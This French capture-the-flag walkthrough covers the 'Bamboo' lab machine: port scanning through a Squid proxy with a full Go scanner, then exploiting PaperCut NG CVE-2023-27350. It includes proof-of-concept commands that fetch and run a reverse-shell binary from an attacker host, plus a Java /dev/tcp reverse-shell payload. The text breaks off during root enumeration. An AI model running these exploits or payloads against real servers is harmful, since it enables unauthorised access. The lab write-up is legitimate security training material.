Bamboo est une machine Linux de difficulté moyenne qui commence par la découverte d’un proxy Squid. Ce proxy est utilisé pour scanner les ports internes et révèle une instance PaperCut NG. Une vulnérabilité connue de PaperCut, CVE-2023-27350, est exploitée pour obtenir un premier accès. L’énumération locale révèle un répertoire accessible en écriture contenant un script qui s’exécute avec les privilèges root. En modifiant ce script, nous obtenons un shell en tant que root.

# Énumération 
## TCP Scan
Je commence l'énumération avec un scan nmap TCP complet avec les options suivantes :
- `-vv` : pour afficher les ports ouverts au fur et à mesure qu'il sont trouvés 
- `-sV` : pour afficher la version des services
- `-sC` : pour exécuter les scripts par défaut sur les ports ouverts
- `-p-` : pour scanner tous les ports TCP
- `-oA fulltcpscan` : pour enregistrer le résultat sous plusieurs formats
```js
nmap 10.129.238.16 -vv -sV -sC -p- -oA fulltcpscan
```

Le scan complet révèle deux ports ouverts : 
- 22 pour le SSH
- 3128 pour Squid Proxy.
```js
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 83b2627d9c9c1d1c438ce3e36a49f0a7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNFkb6yTxAlHWItWKTH0zoiRLRbzLIEogJD96G6UiyYjmaz3cxr3IVyGJrMyNShLOUd4AOeZ1VM/P7fYMV7msZo=
|   256 cf48f5f0a6c1f5cbf865189543b4e7e4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEOrtX+NoAgJeT57Th1zNEcj9kSDYd0TONbchFcpZcoC
3128/tcp open  http-proxy syn-ack ttl 63 Squid http proxy 5.9
|_http-server-header: squid/5.9
|_http-title: ERROR: The requested URL could not be retrieved
```

## Squid proxy - TCP 3128




# Shell en tant que papercut
## Bypass de Squid proxy
Il est possible de le faire avec trois outils : [spose](https://github.com/aancw/spose), [squidscan de xct](https://gist.github.com/xct/597d48456214b15108b2817660fdee00) ainsi que [ika-scan](https://github.com/RandomChugokujin/ika-scan).

### Avec spose
Sur [Hacktricks](https://angelica.gitbook.io/hacktricks/network-services-pentesting/3128-pentesting-squid), je vois qu'il existe un outil permettant d'énumérer les ports d'une machine en passant par un proxy Squid. Ce outil est [spose](https://github.com/aancw/spose). Je clone le repo et installe les prérequis pour l'utiliser.
```js
git clone https://github.com/aancw/spose.git
cd spose
python3 -m venv .venv
pip3 install -r requirements
```

J'exécute ensuite le script Python en scannant tous les ports TCP. Je trouve alors les ports 22, 9191, 9192 et 9195.
```js
python3 spose.py --proxy http://10.129.238.16:3128/ --target 10.129.238.16 --allports
```



### Avec squidscan de xct
Créez un dossier pour le projet et initialisez le module Go.
```js
mkdir squidscan && cd squidscan
go mod init squidscan
```

Remplacer le contenu du fichier `go.mod` par ceci :
```go
module squidscan

go 1.16

require github.com/cheggaaa/pb/v3 v3.1.2 // indirect
```

Créer un fichier `main.go` avec le contenu suivant :
```go
package main

import (
	"fmt"
	"net"
	"net/http"
	"net/url"
	"sync"
	"time"
	"strings"
	"io/ioutil"
	"github.com/cheggaaa/pb/v3"
)

var (
	proxyURL = "http://10.129.238.16:3128" // adjust proxy ip & port 
	numWorkers = 100  // adjust workers
	numPorts = 65535 // adjust ports
)

func main() {
	proxyURL, err := url.Parse(proxyURL)
	if err != nil {
		fmt.Printf("Failed to parse proxy URL: %v\n", err)
		return
	}
	transport := &http.Transport{
		Proxy: http.ProxyURL(proxyURL),
		DialContext: (&net.Dialer{
			Timeout:   3 * time.Second,
			KeepAlive: 3 * time.Second,
		}).DialContext,
	}
	client := &http.Client{Transport: transport}
	openPorts := make([]int, 0)

	bar := pb.StartNew(numPorts)
	sem := make(chan struct{}, numWorkers)
	var wg sync.WaitGroup
	for port := 1; port <= numPorts; port++ {
		wg.Add(1)
		go func(p int) {
			defer wg.Done()
			sem <- struct{}{} 
			defer func() {
				<-sem 
				bar.Increment()
			}()

			address := fmt.Sprintf("127.0.0.1:%d", p)
			r, err := client.Get(fmt.Sprintf("http://%s", address))
			if err != nil {
				return
			}
			data, _ := ioutil.ReadAll(r.Body)
			dataStr := string(data)
			if strings.Contains(dataStr,"The requested URL could not be retrieved"){
				return;
			} 
			defer r.Body.Close()
			openPorts = append(openPorts, p)
			fmt.Printf("Port %d found!\n", p)

		}(port)
	}
	wg.Wait()
	bar.Finish()

	fmt.Println("Open ports:")
	for _, port := range openPorts {
		fmt.Println(port)
	}
}
```

Installer **pb** pour l'affichage de la barre de progression.
```js
go get github.com/cheggaaa/pb/v3
```

Compiler le binaire.
```js
go build -o squidscan main.go
```

Nous sommes maintenant prêts à l'utiliser. Je découvre alors deux ports en plus.

```js
./squidscan
```



Je mets à jour mon fichier `/etc/proxychains.conf` avec la valeur `http 10.129.238.16 3128` afin de faire passer mon trafic par proxychains.



Je fais alors un scan nmap détaillé sur ces ports afin de connaitre les services qui y tournent. Je vois alors qu'il s'agit d'un service HTTP.
```js
/workspace/Bamboo   109s
❯ proxychains -q nmap -n -sT -vv -sC -sV -p 9191,9192,9195 10.129.238.16
--snip--
PORT     STATE SERVICE      REASON  VERSION
9191/tcp open  sun-as-jpda? syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP:
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest, HTTPOptions:
|     HTTP/1.1 302 Found
|     Date: Thu, 25 Dec 2025 14:57:54 GMT
|     Location: http://10.129.238.16:9191/user
|   Help:
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq:
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
|   TerminalServerCookie:
|     HTTP/1.1 400 Illegal character CNTL=0x3
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x3</pre>
9192/tcp open  ssl/unknown  syn-ack
| ssl-cert: Subject: commonName=bamboo/organizationName=unknown/stateOrProvinceName=unknown/countryName=unknown/localityName=unknown/organizationalUnitName=unknown
| Issuer: commonName=bamboo/organizationName=unknown/stateOrProvinceName=unknown/countryName=unknown/localityName=unknown/organizationalUnitName=unknown
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-05-25T13:09:59
| Not valid after:  2038-01-18T03:14:07
| MD5:   51418044505f6510f08e4af557ea027e
| SHA-1: 21638e889e1219c477ab0772d0caa7ffd6772d23
| -----BEGIN CERTIFICATE-----
| MIIEkTCCA3mgAwIBAgIEMZGIbDANBgkqhkiG9w0BAQUFADBrMRAwDgYDVQQGEwd1
| bmtub3duMRAwDgYDVQQIDAd1bmtub3duMRAwDgYDVQQHDAd1bmtub3duMRAwDgYD
| VQQKDAd1bmtub3duMRAwDgYDVQQLDAd1bmtub3duMQ8wDQYDVQQDDAZiYW1ib28w
| HhcNMjMwNTI1MTMwOTU5WhcNMzgwMTE4MDMxNDA3WjBrMRAwDgYDVQQGEwd1bmtu
| b3duMRAwDgYDVQQIDAd1bmtub3duMRAwDgYDVQQHDAd1bmtub3duMRAwDgYDVQQK
| DAd1bmtub3duMRAwDgYDVQQLDAd1bmtub3duMQ8wDQYDVQQDDAZiYW1ib28wggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDCIsSbwVpqv52LRDaKMVo8bAc2
| LNUbJ2TvHzQXF8QpwXr2hhmN2EUfkxHl8nsgHWOkF3wXOfdfW3M6dUsxSWha2l9q
| r+QVFSuW+/5Kq5G/0r4Z0zV9juubXb7anv0dkA5HoAUt2T/9g8MYZL+6/vN7lPwQ
| a8cjbLHsti7XzMGhuQyr0QiIto5pUvvMPR51keTXfy4SVi8goAtibpj1llCvD8E4
| /3+nvD+InBIsKgQYLEBtXEDIfgc8JXkVeHVH6/6gG2tRum9dxDYev8uHmcIFbORi
| pyFL/LBezLtPsdFgBWBPSbNWg9Byp6g30B9DviMlJYlEf11v+F8pd3JZa7n/AgMB
| AAGjggE7MIIBNzCCATMGA1UdDgSCASoEggEmMIIBIjANBgkqhkiG9w0BAQEFAAOC
| AQ8AMIIBCgKCAQEAwiLEm8Faar+di0Q2ijFaPGwHNizVGydk7x80FxfEKcF69oYZ
| jdhFH5MR5fJ7IB1jpBd8Fzn3X1tzOnVLMUloWtpfaq/kFRUrlvv+SquRv9K+GdM1
| fY7rm12+2p79HZAOR6AFLdk//YPDGGS/uv7ze5T8EGvHI2yx7LYu18zBobkMq9EI
| iLaOaVL7zD0edZHk138uElYvIKALYm6Y9ZZQrw/BOP9/p7w/iJwSLCoEGCxAbVxA
| yH4HPCV5FXh1R+v+oBtrUbpvXcQ2Hr/Lh5nCBWzkYqchS/ywXsy7T7HRYAVgT0mz
| VoPQcqeoN9AfQ74jJSWJRH9db/hfKXdyWWu5/wIDAQABMA0GCSqGSIb3DQEBBQUA
| A4IBAQC85rMd/zXwoqzKZgpS6eLJMm3Y3T7NUPDDE7f5/Kx4HriSc4QHGGcwrEF6
| wG/ffQfM8SURoJ1uq07eEI2kaMb4xkoyLd3sioL4hIFJuxIAfUSwprzG22/xMTbK
| Ctzr3DDXpdu8N3kosPhwqdz+dGazpaccPsmzu8cki48F15sZNvX9mdJ9CFXdqtTe
| QHPEXxLa/VyvxFN1yZ7zSRhfXP6zbT9NYlQdtYbSeT2G4CYoYwfcvvVL+pHbDKdT
| 9dUoCWu1ulnpEMlpPRW34Vz/hI37m5uJaScJAuTl5EkKoQ8BPJCYh2tzm0wb4wCO
| KYLWoPjk9SsXVhe61djhB23yjnCP
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
9195/tcp open  ssl/unknown  syn-ack
| ssl-cert: Subject: commonName=bamboo/organizationName=unknown/stateOrProvinceName=unknown/countryName=unknown/localityName=unknown/organizationalUnitName=unknown
| Subject Alternative Name: DNS:bamboo
| Issuer: commonName=bamboo/organizationName=unknown/stateOrProvinceName=unknown/countryName=unknown/localityName=unknown/organizationalUnitName=unknown
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-25T13:10:17
| Not valid after:  2030-05-26T13:10:17
| MD5:   c6d516763cc47c54c81ddbf81b0cd778
| SHA-1: 3f71d25656a5d2e2fb5ea03e15d56342238ddab7
```

Je crée un proxy dans l'extension `FoxyProxy` afin de faire passer tout le traffic de `Squid` par ce chemin.



Je choisis alors le proxy que je viens de créé et je me rends sur la page `http://10.129.238.16:9191/`. J'arrive alors sur une page `PaperCut 22.0`. J'apprends alors après une petite recherche Google que le service tournant principalement sur les ports TCP **9191**, **9192** et **9195** est `PaperCut`.


## CVE-2023-27350
### Exploitation automatisée 

Sur [Exploit-DB](https://www.exploit-db.com/exploits/51452), je vois que cette version de `PaperCut` est vulnérable à une Bypass d'authentification conduisant à une RCE. Il existe même un POC sur ce [Github](https://github.com/horizon3ai/CVE-2023-27350).
```js
# Uploader mon script de reverse shell sur la cible
proxychains -q python3 CVE-2023-27350.py -u http://10.129.238.16:9191/ -c 'wget 10.10.16.15/revshell -O /tmp/revshell'

# Le rendre exécutable 
proxychains -q python3 CVE-2023-27350.py -u http://10.129.238.16:9191/ -c 'chmod +x /tmp/revshell'

# L'exécuter 
proxychains -q python3 CVE-2023-27350.py -u http://10.129.238.16:9191/ -c '/tmp/revshell'
```



J'obtiens alors un shell en tant que `papercut`.



Je récupère alors le premier flag.



### Exploitation manuelle

Il y a cet article de [Juniper](https://blogs.juniper.net/en-us/threat-research/cve-2023-27350-papercut-ng-and-mf-remote-code-execution-vulnerability) ainsi que ce [writeup de THM](https://daniel-schwarzentraub.medium.com/tryhackme-free-walk-through-room-papercut-cve-2023-27350-8cbf78a7ac36) qui explique très bien la méthode d'exploitation manuelle de cette vulnérabilité.
Il suffit de me rendre sur la page `/app?service=page/SetupCompleted` puis de cliquer sur le bouton **Login** pour bypasser l'authentification.



Je suis alors redirigé vers le `/app?service=page/Dashboard` et j'obtiens un accès administrateur au site.



Pour obtenir un shell, je me rends dans `Printers` puis je clique sur `Template printer`.



Je clique sur **Scripting** et j'ai alors un message comme quoi l'option de scripting n'est pas activée.



Pour l'activer je me rend dans `Options > Config Editor`, puis je mets la valeur **Y** pour les attributs `print-and-device.script.enabled` et `print.script.sandboxed` puis je clique **update** sur chacun de ces attributs afin de les mettre à jour.



Je peux alors obtenir un shell avec la payload de reverse shell.

```js
java.lang.Runtime.getRuntime().exec(['/bin/bash', '-c', 'bash -i >& /dev/tcp/10.10.16.76//9001 0>&1']);
```



# Shell en tant que root
## Énumération 

Le répertoire **~/server** contient un fichier **`server.properties`** dans lequel se trouve le hash de l'admin de l'application Papercut.



Si je n'avais pas déjà exploiter la vulnérabilité de Bypass d'authentification, alors je pourrais éditer ce fichier afin de modifier le mot de passe s'y trouvant.



Puis me connecter avec ces nouveaux identifiants en tant qu'admin.


